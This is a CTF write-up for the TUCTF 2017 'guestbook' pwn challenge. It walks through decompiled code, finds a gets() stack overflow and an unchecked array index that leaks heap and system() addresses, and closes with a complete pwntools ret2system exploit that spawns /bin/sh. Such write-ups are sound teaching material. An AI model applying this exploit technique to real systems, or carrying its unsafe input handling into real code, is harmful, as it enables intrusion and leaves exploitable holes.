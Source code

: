 ```yaml
---
layout: post
title: TUCTF 2017 PWN 250
tags: [ctf, pwn, write-up, tuctf17, infoleak, ROP]
---
```


### Challenge: [guestbook](../ctfs/tuctf17/pwn/guestbook/guestbook)
(**PS**: *libc was provided for this challenge*)

### Reversing
Let's start with basic analysis of given binary
```bash
$ file ./guestbook
guestbook: ELF 32-bit LSB shared object, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=bc73592d4897267cd1097b0541dc571d051a7ca0, not stripped
$ checksec ./guestbook
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
So we have PIE and NX enabled, which in most scenarios require combination of information leak and ROP (Return Oriented Programming). I quickly fire up IDA for further analysis.
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [sp+0h] [bp-98h]@16
  int v5; // [sp+64h] [bp-34h]@11
  int v6; // [sp+68h] [bp-30h]@7
  char *dest[4]; // [sp+6Ch] [bp-2Ch]@2
  char v8; // [sp+7Fh] [bp-19h]@5
  int (**v9)(const char *); // [sp+80h] [bp-18h]@4
  char **v10; // [sp+84h] [bp-14h]@4
  char *v11; // [sp+88h] [bp-10h]@2
  char v12; // [sp+8Fh] [bp-9h]@4
  int i; // [sp+90h] [bp-8h]@1

  setvbuf(stdout, 0, 2, 0x14u);
  puts("Please setup your guest book:");
  for ( i = 0; i <= 3; ++i )
  {
    printf("Name for guest: #%d\n>>>", i);
    v11 = (char *)malloc(0xFu);
    __isoc99_scanf("%15s", v11);
    v11[14] = 0;
    dest[i] = v11;
  }
  v10 = dest;
  v9 = &system;
  v12 = 1;
  while ( v12 )
  {
    do
      v8 = getchar();
    while ( v8 != 10 && v8 != -1 );
    puts("---------------------------");
    puts("1: View name");
    puts("2: Change name");
    puts("3. Quit");
    printf(">>");
    v6 = 0;
    __isoc99_scanf("%d", &v6);
    switch ( v6 )
    {
      case 2:
        printf("Which entry do you want to change?\n>>>");
        v5 = -1;
        __isoc99_scanf("%d", &v5);
        if ( v5 >= 0 )
        {
          printf("Enter the name of the new guest.\n>>>");
          do
            v8 = getchar();
          while ( v8 != 10 && v8 != -1 );
          gets(&s);
          strcpy(dest[v5], &s);
        }
        else
        {
          puts("Enter a valid number");
        }
        break;
      case 3:
        v12 = 0;
        break;
      case 1:
        readName((int)dest);
        break;
      default:
        puts("Not a valid option. Try again");
        break;
    }
  }
  return 0;
}

int __cdecl readName(int a1)
{
  int result; // eax@2
  int v2; // [sp+0h] [bp-8h]@1

  printf("Which entry do you want to view?\n>>>");
  v2 = -1;
  __isoc99_scanf("%d", &v2);
  if ( v2 >= 0 )
    result = puts(*(const char **)(4 * v2 + a1));
  else
    result = puts("Enter a valid number");
  return result;
}
```
Above is the decompiled pseudo code generated by IDA hex-rays plug-in. Here as the code suggests, binary takes input for four guests and assigns each a numerical entry (eg #1). After this binary gives out a menu with three options, we can either choose to view name in a guest entry or change name in a guest entry or simply select `quit` option which return the `main`. There is a interesting block of code that is spotted instantly, `Change name` section uses `gets` function to take input on the stack which can allow us to overwrite return address. But where to return to? Meaning we still have to bypass PIE by getting an info leak. To get that, there is a user-defined function `readName` in `View name` section. This function takes array of string `dest` which is a stack variable for `main` function, as argument and asks user for the entry of `dest` to be printed on console. Now here lies the second vulnerability. Entry integer value doesn't have a max value check in place. So we can use this to leak stuff on the stack. Now lets see if there is anything interesting on stack.  

### Exploitation

```bash
gdb-peda$ stack 500
...
0112| 0xffffd22c --> 0x56558008 --> 0x41 ('A')
0116| 0xffffd230 --> 0x56558428 --> 0x42 ('B')
0120| 0xffffd234 --> 0x56558440 --> 0x43 ('C')
0124| 0xffffd238 --> 0x56558458 --> 0x44 ('D')
0128| 0xffffd23c --> 0xa5559f1
0132| 0xffffd240 --> 0xf7e2cfa0 (<system>:	sub    esp,0xc)
0136| 0xffffd244 --> 0xffffd22c --> 0x56558008 --> 0x41 ('A')
0140| 0xffffd248 --> 0x56558458 --> 0x44 ('D')
0144| 0xffffd24c --> 0x1000000
0148| 0xffffd250 --> 0x4
0152| 0xffffd254 --> 0x0
0156| 0xffffd258 --> 0x0
0160| 0xffffd25c --> 0xf7e09456 (<__libc_start_main+246>:	add    esp,0x10)
...
```  
Above is the stack view taken from `gdb-peda`. [0x56558008, 0x56558428, 0x56558440, 0x56558458] is what `dest` looks like. Buf if we request for 6 index in `dest`, 0xffffd22c address will be printed as a string which will in turn leak out heap address `0x56558008` and system address `0xf7e2cfa0`. After getting this leak we can craft our payload for stack based buffer overflow in `Change name` section.  
Final buffer overflow payload will be (custom values are added in between *eip offset buffer* due to `strcpy` call just after the `gets` call)  
`'/bin/sh\x00' + "A"*92 + p32(0) + p32(0) + p32(heap_addr)*4 + "B"*32 + p32(system_addr) + "JUNK" + p32(heap_addr) + "\n"`  
Here `heap_addr`*4 has been added to overwrite `dest` variable's array elements. With this in the next `strcpy` call, `/bin/sh` gets written on the `heap_addr` providing us argument for `system` ROP chain.  
Below is the final exploit script  
```python
from pwn import *

def ch_name(index, name):
    r.recvuntil(">>")
    r.sendline("2")
    r.recvuntil(">>>")
    r.sendline(str(index))
    #r.interactive()
    r.recvuntil(">>>")
    r.sendline(name)

def vw_name(index):
    r.recvuntil(">>")
    r.sendline("1")
    r.recvuntil(">>>")
    r.sendline(str(index))

r = process("./guestbook")

# providing guest names
for i in range(4):
    r.recvuntil(">>>")
    r.sendline(chr(0x41 + i)*4)

# leak stack address
vw_name(6)
leak = r.recv(24)
heap_addr = u32(leak[0:4])
log.info("heap address: 0x{:x}".format(heap_addr))
system_addr = u32(leak[20:24])
log.info("system address: 0x{:x}".format(system_addr))
# overwriting return address
ch_name(0, '/bin/sh\x00' + "A"*92 + p32(0) + p32(0) + p32(heap_addr)*4 + "B"*32 + p32(system_addr) + "JUNK" + p32(heap_addr) + "\n")
#gdb.attach(r)
# triggering shell
r.sendline("3")
r.recvuntil(">>")
r.interactive()
```
Exploit script [link](../ctfs/tuctf17/pwn/guestbook/sploit.py)
